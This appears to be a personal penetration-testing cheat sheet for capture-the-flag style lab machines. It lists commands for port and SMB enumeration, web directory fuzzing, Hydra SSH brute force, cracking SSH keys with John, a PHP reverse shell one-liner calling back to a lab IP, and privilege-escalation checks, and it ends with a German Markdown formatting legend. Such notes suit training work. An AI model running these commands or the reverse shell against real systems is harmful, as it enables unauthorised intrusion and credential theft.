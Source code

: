 # Exploration

## Server

Scan for open ports  
`nmap -A 10.10.116.134`

## Samba

Get Information about samba  
`enum4linux -a 10.10.116.134`

Connect to anonymous samba share  
`smbclient //10.10.116.134/Anonymous`

## Webserver

Seclists: <https://github.com/danielmiessler/SecLists>

### Custom wordlists

[CeWL](https://tools.kali.org/password-attacks/cewl) is a ruby app which spiders a given url to a specified depth, optionally following external links, and returns a list of words which can then be used for password crackers such as John the Ripper.

### Directory scanning

`gobuster dir -u http://10.10.154.87:3333 -w /home/kali/Downloads/big.txt`

`wfuzz -c -z file,wordlist.txt -u http://10.10.218.20/api/site-log.php?date=FUZZ`

`wfuzz -c -z file,big.txt -d “username=FUZZ&password=FUZZ” -u http://shibes.xyz/api.php`

`wfuzz -c -z file,big.txt -u http://shibes.xyz/api.php?breed=FUZZ`

`./ffuf -u http://s3.bucket.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt`

`dirb http://10.10.144.50 big.txt`

# Brute Force

## SSH

SSH Brutefrce with hydra  
`hydra -t 4 -V -f -l jan -P /home/kali/Downloads/rockyou.txt 10.10.116.134 ssh`

Crack ssh key: Convert id_rsa for john and the crack it with wordlist  
`python3 /usr/share/john/ssh2john.py id_rsa > idcrack`  
`john --wordlist=rockyou.txt idcrack`

# Exploitation

## Search for exploits

Search in exploit db for wordpress  
`searchsploit wordpress`

## Reverse shell

### Reverse shells

[Netcat without e](https://medium.com/@shadowslayerqwerty/creating-a-netcat-reverse-shell-without-e-89b45134de99)

`<?php $sock=fsockopen("10.9.231.55",4444);exec("/bin/sh -i <&3 >&3 2>&3"); ?>`

### Incoming reverse shell

`nc -nvlp <port>`

### Upgrading reverse shell

[Upgrading from netcat with magic](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

# Priviledge escalation

[LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) is a script that search for possible paths to escalate privileges on Linux/Unix* hosts

[LinEnum](https://github.com/rebootuser/LinEnum)

List sudo rights  
`sudo -l`

setuid-Bit
`find . -perm /4000`

# Post Exploitation

Bash History
~/bash_history ~/zsh_history

# Useful tools

Local webserver from current directory  
`python3 -m http.server 8080`

Pipe through grep and write resuls to file  
`cat <file> | grep -e "dir" > result.txt`  

View & edit Path variable  
<https://www.baeldung.com/linux/path-variable>  
`echo $PATH`  
`export PATH=/some/new/path:$PATH`  

[Cyberchef](https://gchq.github.io/CyberChef/) - Encoding, Cryto and other string operations

# Legende

_kursiv_
**fett**
~~durchgestrichen~~
`code`

---

Liste:

* Eintrag
* Noch einer

Liste:

1. asdf
2. asf

[Link](http://example.com)

> Quote

